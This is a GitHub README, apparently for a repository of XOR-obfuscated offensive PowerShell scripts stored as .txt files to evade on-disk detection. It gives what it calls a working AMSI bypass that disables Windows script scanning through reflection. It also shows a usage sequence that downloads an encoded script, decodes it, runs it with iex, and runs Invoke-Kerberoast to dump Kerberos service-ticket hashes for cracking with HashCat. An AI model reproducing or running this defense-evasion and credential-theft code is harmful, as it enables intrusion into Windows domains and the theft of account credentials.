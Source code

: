 # PS-Scripts-Obfuscated
Powewrshell scripts xor encoded and convereted to .txt to avoid on disk detction. All credit to the authors. 


## The below is currently a working AMSI bypass.   
```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```


## Usage Example: Run the powershell scripts using the below. 

```
PS C:\Users\User> $file = "C:\Users\User\Desktop\temp\Invoke-Kerberoast.txt"
PS C:\Users\User>
PS C:\Users\User> $enc = [system.Text.Encoding]::UTF8
PS C:\Users\User> $file = ((New-Object Net.Webclient).DownloadString($file))
PS C:\Users\User> $data = $enc.GetBytes($file)|%{$_-bXor0x11}
PS C:\Users\User> iex ([System.Text.Encoding]::ASCII.GetString($data))
PS C:\Users\User> Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-output.txt
```
